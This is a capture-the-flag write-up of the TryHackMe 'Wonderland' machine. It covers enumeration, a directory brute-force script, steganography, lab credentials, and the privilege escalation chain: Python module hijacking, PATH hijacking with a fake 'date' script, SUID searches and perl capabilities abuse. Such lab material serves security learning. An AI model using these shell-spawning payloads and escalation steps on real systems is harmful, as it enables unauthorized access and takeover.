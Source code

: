 

# Wonderland

> Franco Contreras


IP=10.10.82.181

### Enumeration

```bash
export IP=10.10.82.181
mkdir scans
nmap -A $IP -oN scans/nmap.log
```
Port 80 is open:

```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```
![](images/image1.png)



![](images/image3.png)

Directory **/r** exists and contains <this image> [image1]. This seems like an encouraging sign this is the right directions, now explore the source code and see if there is anything worth 

![](images/image2.png)

Nothing of interest, now what we can do is redefine our target to contain the directory we found and *gobuster* it

![](images/image4.png)

Seems like this is some kind of nested directory with 1 letter per directory, you could try to do it manually or write a script to do it for you

<details><summary> Python script </summary>
<p>

```python
import requests
import string
import time
url= 'http://10.10.82.181/'
#This will loop forever, stop it when it stops finding new letters
while True:
	for letter in list(string.ascii_lowercase[:26]): # loops through the alphabet in lowercase starting with a
		print(url)
		r = requests.post(url+letter+'/')
		if r.status_code == 200:
			url = url + letter +'/'
			letter = string.ascii_lowercase[0]
		else:
			time.sleep(0)

```
![](images/video2.gif)	
</p>
</details>

	
The website contains this image
![](alice_door.png)

At this point I felt stuck, I already had the images from **/img/** directory, so I did some used some stego tools on the images, binwalk for the **.png** and steghide for the **.jpg**

```bash
steghide extract -sf alice_door.jpg
steghide extract -sf white_rabbit_1.jpg
binwalk -e alice_door.png

```
![](images/image5.png)

<details><summary>Hint.txt</summary>
<p>
follow the r a b b i t
</p>
</details>

So we didn't need the previous python script to figure out the path, but it was a good excercise nontheless.

Explore the source code of the website

![](images/image6.png)

Credentials: <br>
> alice:HowDothTheLittleCrocodileImproveHisShiningTail <br>

Connect using ssh and these credentials, once in explore and try to escalate, first obvious attemp is `sudo -l` <bn>

![](images/image7.png)

[Tip](https://docs.python.org/3/tutorial/modules.html#the-module-search-path)


Now we are going to create a file called ramdom.py to abuse the fact we are in the same directory as the executable python script, this new file should be able to spawn a shell

<details><summary>random.py</summary>
<p>

```python
import os

os.system("/bin/bash")
```
</p>
</details>

Now, execute the python file as rabbit, this should give us a new shell as **rabbit**

```bash
sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
```

![](images/image8.png)

We can now see if there is any other user with more privileges we can impersonate `cat /etc/passwd`

Also check rabbit's folder, there is an interesting file there with interesting persimssions.

![](images/image9.png)

Both SUID and GUID are on, try to understand how the binary works by using it with strings, have in mind strings is no instaled in victims machine, you have to extract it somehow, scp could be a valid option

```bash
scp teaParty user@10.6.73.147:/home/user/THM/Wonderland
```
![](images/image10.png)

It uses **date** but without refering to the absolute path, we can exploit this by creating a **date** binary with our code in the current directory and add it to the PATH
```bash
export PATH=$(pwd):$PATH
```
<details><summary>date</summary>
<p>

```bash
#!/bin/bash
/bin/bash
```
</p>
</details>

![](images/video2.gif)

Explore hatter's home folder `cat /home/hatter/password.txt`

> Credentials hatter:WhyIsARavenLikeAWritingDesk?

Find SUID and GUID files
```bash
find / -perm 4000 2>/dev/null
find / -perm 2000 2>/dev/null
find / -perm 6000 2>/dev/null
```

Try other tools
`scp linpeas.sh hatter@$IP:/home/hatter`


![](images/image11.png)
[Tip](https://gtfobins.github.io/gtfobins/perl/#capabilities)


We can exploit these capabilities
![](images/video3.gif)

Find the files with
```
find / -name *user.txt 2>/dev/null
find / -name *root.txt 2>/dev/null
```
